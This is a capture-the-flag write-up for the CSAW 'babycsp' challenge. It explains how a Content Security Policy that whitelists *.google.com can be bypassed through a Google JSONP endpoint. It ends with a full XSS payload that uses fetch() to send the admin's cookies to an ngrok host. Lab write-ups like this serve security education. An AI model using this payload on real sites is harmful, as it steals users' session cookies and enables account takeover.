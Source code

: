 # Challenge Name: babycsp
Score: 50 <br>
Vulnerability: Cross-Site Scripting (XSS) <br>
Solution: Bypass Content Security Policy (CSP) <br>
Link: http://web.chal.csaw.io:1000/ <br>
Description: 
```
I heard CSP is all the rage now. It's supposed to fix all the XSS, kill all of the confused deputies, and cure cancer?

The flag is in the cookies
```

**Part 0x01 - Information Gathering** <br>
The author wants us to bypass the Content Security Policy (CSP) to get the flag in the cookies. With this kind of challenge, we need to perform Cross-Site Scripting (XSS) attack and grab the cookie in admin side. There are 2 functions on the website. First one is posting and second one is reporting to admin.

The CSP in the website has the following policy: `default-src 'self'; script-src 'self' *.google.com; connect-src *`

![](https://github.com/ajdumanhug/ctf/blob/master/web/xxe/files/Screen%20Shot%202019-09-15%20at%201.37.48%20AM.png)

The `script-src` has a value of `*.google.come` which could allow us to bypass the CSP.

**Part 0x02 - Vulnerability Exploitation** <br>
First thing we need to do is to execute an XSS. So, we have to look for a google endpoint that could help us bypass the CSP.

Well, luckily, PayloadsAllTheThings has a payload to [bypass CSP using Google endpoint](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#bypass-csp-using-jsonp-from-google-trick-by-apfeifer27).

Using [apfeifer27](https://twitter.com/apfeifer27)'s CSP Bypass, we used [Fetch](https://javascript.info/fetch) to fetch the admin's cookie and pass it to our ngrok.

Final payload would be

```javascript
<script/src="https://www.google.com/complete/search?client=chrome&jsonp=fetch(/http:\\affc7f76.ngrok.io/.toString().substr(1).concat(document.cookie));"></script>
```

![](https://github.com/ajdumanhug/ctf/blob/master/web/xxe/files/Screen%20Shot%202019-09-15%20at%201.51.45%20AM.png)

Please note that I am playing with hackstreetboys team and this challenge was first solved by my teammate, Ameer.

Thanks for reading.
